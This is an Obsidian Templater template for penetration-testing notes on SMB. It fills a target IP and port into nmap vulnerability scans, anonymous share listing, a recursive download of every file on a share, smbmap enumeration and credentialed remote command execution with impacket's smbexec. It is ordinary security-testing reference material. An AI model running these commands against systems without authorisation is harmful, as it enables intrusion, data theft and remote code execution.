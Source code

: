 <%-*
if ( tp.frontmatter.current_port  == undefined) {
	tp.frontmatter.current_port = await tp.system.prompt('Enter port number: ')
}
-%>
# SMB - <% tp.frontmatter.current_port %>
<%*
let different_port = ""
let smbMap_different_port = ""
let smbexec_different_port = ""

if (parseInt(tp.frontmatter.current_port) != 445) {
	different_port = `--port=${tp.frontmatter.current_port}`
	smbMap_different_port = `-P ${tp.frontmatter.current_port}`
	smbexec_different_port = `-port ${tp.frontmatter.current_port}`
}
-%>
#### Nmap
```nmap
nmap -p<% tp.frontmatter.current_port %> --script smb-vuln-* <% tp.frontmatter.target_ip %>
```

#### SMBClient
```SMB
smbclient -N -L //<% tp.frontmatter.target_ip %> <% different_port %>
```

#### Download all
```bash
#Download all
smbclient //<% tp.frontmatter.target_ip %>/<share> <% different_port %>
> mask ""
> recurse
> prompt
> mget *
#Download everything to current directory
```

#### SMBMAP
```smbmap
smbmap -H <% tp.frontmatter.target_ip %> <% smbMap_different_port %>
```


#### SMBMAP for domain
```bash
smbmap -H <% tp.frontmatter.target_ip %> -d <% tp.frontmatter.domain %>
```

#### smbexec
(If using kali try `impacket-smbexec`)
```smbexec
python smbexec.py <% tp.frontmatter.domain %>/<user>:<password>@<% tp.frontmatter.target_ip %> <% smbexec_different_port %>
```

#### smbexec w/out domain
```smbexec
python smbexec.py <user>:<password>@<% tp.frontmatter.target_ip %> <% smbexec_different_port %>
```